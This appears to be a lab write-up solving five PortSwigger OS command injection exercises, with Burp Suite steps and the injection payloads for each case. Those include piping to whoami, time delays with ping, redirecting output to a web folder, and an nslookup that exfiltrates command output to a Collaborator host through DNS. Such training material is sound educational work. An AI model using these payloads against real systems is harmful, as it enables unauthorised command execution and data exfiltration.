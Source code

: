 # OS command injection

## OS command injection, simple case

### Description

[This lab](https://portswigger.net/web-security/os-command-injection/lab-simple) contains an OS command injection vulnerability in the product stock checker: The application executes a shell command containing user-supplied product and store IDs, and returns the raw output from the command in its response. 

### Proof of Concept

1. Use Burp Suite to intercept and modify a request that checks the stock level. 
2. Modify the `storeID` parameter, giving it the value `1|whoami`. 
3. Observe that the response contains the name of the current user.

### Exploitability

An attacker will need to execute the `whoami` command to determine the name of the current user.

----

## Blind OS command injection with time delays

### Description

[This lab](https://portswigger.net/web-security/os-command-injection/lab-blind-time-delays) contains a blind OS command injection vulnerability in the feedback function. The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response. 

### Proof of Concept

1. Use Burp Suite to intercept and modify the request that submits feedback.
2. Modify the `email` parameter, changing it to: `email=x||ping+-c+10+127.0.0.1||`
3. Observe that the response takes 10 seconds to return.

### Exploitability

An attacker will need to exploit the blind OS command injection vulnerability to cause a 10 second delay. 

----

## Blind OS command injection with output redirection

### Description

[This lab](https://portswigger.net/web-security/os-command-injection/lab-blind-output-redirection) contains a blind OS command injection vulnerability in the feedback function. The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response. However, you can use output redirection to capture the output from the command. There is a writable folder at:

    /var/www/images/

The application serves the images for the product catalog from this location. It is possible to redirect the output from the injected command to a file in this folder, and then use the image loading URL to retrieve the contents of the file. 

### Proof of Concept

1. Use Burp Suite to intercept and modify the request that submits feedback.
2. Modify the email parameter, changing it to: `email=||whoami>/var/www/images/output.txt||`
3. Now use Burp Suite to intercept and modify the request that loads an image of a product.
4. Modify the filename parameter, changing the value to the name of the file specified for the output of the injected command: `filename=output.txt`
5. Observe that the response contains the output from the injected command.

### Exploitability

An attacker will need to execute the `whoami` command and retrieve the output. 

----

## Blind OS command injection with out-of-band interaction

### Description

[This lab](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band) contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that is accessible. However, it is possible to trigger out-of-band interactions with an external domain.

### Proof of Concept

1. Use Burp Suite to intercept and modify the request that submits feedback.
2. Modify the email parameter, changing it to: `email=x||nslookup+x.burp-collab-subdomain||`
3. Right-click and select "Insert Collaborator payload" to insert a Burp Collaborator subdomain where indicated in the modified email parameter.

### Exploitability

An attacker will need to exploit the blind OS command injection vulnerability to issue a DNS lookup to Burp Collaborator. _Note: To prevent the Academy platform being used to attack third parties, the firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, use Burp Collaborator's default public server._

_Note: The solution described here is sufficient simply to trigger a DNS lookup and so solve the lab. In a real-world situation, you would use Burp Collaborator client to verify that your payload had indeed triggered a DNS lookup. _

----

## Blind OS command injection with out-of-band data exfiltration

### Description

This lab contains a blind OS command injection vulnerability in the feedback function. The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

### Proof of Concept

1. Use Burp Suite Professional to intercept and modify the request that submits feedback.
2. Go to the Collaborator tab.
3. Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard.
4. Modify the `email` parameter, changing it to something like the following, but insert your Burp Collaborator subdomain where indicated:

```
email=||nslookup+`whoami`.burp-collab-subdomain||
```
    
5. Go back to the Collaborator tab, and click "Poll now". You should see some DNS interactions that were initiated by the application as the result of your payload. If you don't see any interactions listed, wait a few seconds and try again, since the server-side command is executed asynchronously.
6. Observe that the output from your command appears in the subdomain of the interaction, and you can view this within the Collaborator tab. The full domain name that was looked up is shown in the Description tab for the interaction.
7. To complete the lab, enter the name of the current user.

### Exploitability

An attacker will need to execute the whoami command and exfiltrate the output via a DNS query to Burp Collaborator, and then enter the name of the current user to complete the lab. _Note: To prevent the Academy platform being used to attack third parties, the firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, use Burp Collaborator's default public server (or a C2)._


